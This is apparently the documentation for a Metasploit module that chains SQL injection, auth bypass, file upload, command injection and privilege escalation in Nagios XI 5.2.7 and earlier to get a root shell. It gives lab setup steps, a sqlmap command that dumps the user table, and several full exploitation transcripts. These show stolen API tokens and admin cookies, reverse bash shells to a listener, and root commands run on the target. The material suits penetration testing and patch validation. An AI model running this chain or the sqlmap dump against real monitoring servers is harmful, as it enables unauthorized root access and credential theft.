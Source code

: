 ## Intro

Nagios XI is the enterprise version of Nagios, the monitoring software we love
and hate.

> This module exploits an SQL injection, auth bypass, file upload, command
injection, and privilege escalation in Nagios XI <= 5.2.7 to pop a root shell.

## Setup

**Download the virtual appliance:**

I used the 64-bit OVA [here]. Remove the "-64" in the link to download the
32-bit OVA.

[here]: https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.2.7-64.ova

**Import the OVA:**

Just import it into VMware or VirtualBox. It should create a VM for you.

**Configure the software:**

When you start the VM, you will see ```Access Nagios XI at http://[redacted]```
on the login screen. Connect to the URL using your web browser and follow the
steps on the screen to configure the app.

Configuration is actually not required to exploit the app, but you should do it
anyway.

## Options

  **USERID**

  If you wish to exploit a particular UserID, that can be specified here.  Default is 1, which is most likely the admin account.
  
  **APITOKEN**
  
  The SQLi included only works for MySQL, which should work in most cases.  However, if you experience a different backend, you can enumerate the user
  table via sqlmap: ```sqlmap -u "http://<ip>/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump```.
  Then you can set the UserID and APITOKEN to skip those phases and move on to exploitation.  Default is empty.  See example below for more usage.

## Usage

### Typical Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
msf > use exploit/linux/http/nagios_xi_chained_rce 
msf exploit(nagios_xi_chained_rce) > set rhost [redacted]
rhost => [redacted]
msf exploit(nagios_xi_chained_rce) > set verbose true
verbose => true
msf exploit(nagios_xi_chained_rce) > run

[*] Started reverse TCP handler on [redacted]:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] API token: 3o2erpm0
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=jcilcfptj7ogpvovgs3i5gilh7;
[+] CSRF token: 477abd7db8d06ade9c7fcd9e405fd911
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 1 opened ([redacted]:4444 -> [redacted]:60132) at 2016-07-01 00:12:20 -0500
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-xAmhUGRn.zip

3904334783
TwMSxKhKEaxUjlTSNYyeICVUuPSNkwoI
cKKdfdZxRpDduZCezKXOficrVyNeVggH
mRVdstQmfdtnFiYMjLgyfvRWXyQZPyUF
dDlRoqhBvqvwrhKYWumimyKxVHSbrkoE
wjCWBTgbsQuPemhiByeMpMEhdPooHEvw
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
uname -a
Linux localhost.localdomain 2.6.32-573.22.1.el6.x86_64 #1 SMP Wed Mar 23 03:35:39 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

### Emulating a different DB

#### First we'll attempt the exploit and see what happens.

```
msf exploit(nagios_xi_chained_rce) > show options

Module options (exploit/linux/http/nagios_xi_chained_rce):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   APITOKEN                   no        If an API Token was already stolen, skip the sqli
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST     192.168.2.218    yes       The target address
   RPORT     80               yes       The target port
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERID    1                yes       User ID in the database to target
   VHOST                      no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.117    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI <= 5.2.7


msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] 0 incidents resolved in Nagios IM

[-] Exploit aborted due to failure: unexpected-reply: API token not found! punt!
[*] Exploit completed, but no session was created.
```

#### Now lets try using sqlmap to enumerate the user table.

```
root@k:~# sqlmap -u "http://192.168.2.218/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump
...snip...
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| user_id | name                 | email             | enabled | username    | password                         | backend_ticket                                                   |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| 2       | admin2               | admin2@admin2.com | 1       | admin2      | c84258e9c39059a89ab77d846ddab909 | 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+

...sip...
```

#### Re-target
Now, we can set the UserID and APIToken (backend_ticket)

```msf exploit(nagios_xi_chained_rce) > set userid 2
userid => 2
msf exploit(nagios_xi_chained_rce) > set apitoken 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
apitoken => 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting admin cookie
[+] 2-tGRcLXmX-e1b4545976adf651e80a15c92200624d
[+] Admin cookie: nagiosxi=rjs4f9k4299v78hpgq3374q6j6;
[+] CSRF token: c53d1f591264a3ea771639a7782627f8
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.218:51032) at 2016-10-10 10:15:08 -0400
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-ZEaGkiTW.zip

1138255764
NXEqynCVIfLzvpjUkqOovFvuLgsUrtpo
CKorOSWlTQEkRoiwCiBqTgylyLQjuWxU
oIGZxLofAStLsgsMNaGnQzzMuBYpJUQs
fkUlWzVvhurgAATtxKhLSBFCxQaZqjtR
QajRDDToeigHGMFdUbaClxkLfJbxqBKv
whoami
root
```

#### No APIToken
Or if the backend is MySQL but we want to target a different user, we can simply just set the userid with no APIToken.

```
msf exploit(nagios_xi_chained_rce) > set apitoken ''
apitoken => 
msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] API token: 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
[*] Getting admin cookie
[+] 2-zIajIKUA-e1b4545976adf651e80a15c92200624d
[+] Admin cookie: nagiosxi=kjeqq7f074pgn61q8l27togtr3;
[+] CSRF token: 05ab9c5c27d99e7c13821a3b43d0f5a6
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 3 opened (192.168.2.117:4444 -> 192.168.2.218:51054) at 2016-10-10 10:17:12 -0400
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-xrnIbKdJ.zip
```
